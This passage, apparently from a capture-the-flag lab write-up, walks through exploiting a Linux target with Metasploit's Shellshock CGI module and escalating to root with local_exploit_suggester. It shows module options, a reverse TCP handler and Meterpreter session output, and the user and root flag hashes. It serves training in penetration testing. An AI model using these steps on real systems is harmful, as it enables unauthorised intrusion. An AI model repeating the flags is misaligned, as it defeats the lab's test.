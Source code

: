 ![Image](/assets/Screenshot 2024-09-07 at 5.43.47 PM.png)

After confirming in Metasploit, lets use the first option that promises environment variable command injection, simply because that's what worked for us. 

### Initial Access

With msfconsole, it is imperative to configure the correct options for the module you are running, including payload, hosts, credentials if necessary, etc. 

For this specific one, the default payload is fine, and we always need to check our `options` so we know what fields to populate. This module specifically needs:

```
lhost: 10.10.14.3
rhost: 10.10.10.56
targeturi: /cgi-bin/user.sh

msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > run

[*] Started reverse TCP handler on 10.10.14.3:4444 
[*] Command Stager progress - 100.00% done (1092/1092 bytes)
[*] Sending stage (1017704 bytes) to 10.10.10.56
[*] Meterpreter session 1 opened (10.10.14.3:4444 -> 10.10.10.56:48768) at 2024-09-07 17:45:21 -0400

meterpreter > 
```

From here, we've got user-level access, and can go to the user account's home directory (stated earlier) for our flag.

`USER: 76f175ee0c8a82f28b69e3f7ca203e0f`

### Privilege Escalation

Metasploit has a module as well that is used specifically for privilege escalation opportunities as well called `local_exploit_suggester`. We can use it here to find vectors of escalation for us.

![Image](/assets/Screenshot 2024-09-07 at 5.55.10 PM.png)

Let's use the second module, as the target is listed as "vulnerable", opposed to "appears vulnerable". It's also important here to configure our options. We can background our initial shell session with `background`, and use the local exploit suggester to find alternative ways to escalate vertically. Once found, we feed the session ID of our initial shell into the parameters of the suggester (in this case, 1). This allows the privesc to pick up where we left off.

![Image](/assets/Screenshot 2024-09-07 at 5.55.41 PM.png)

We've gained a higher access shell, and can go to the root directory for our flag.
`ROOT: 7bd0bc53cd391b25fa96e1d5e73ef83e`

#easy #linux #manual #msfconsole 
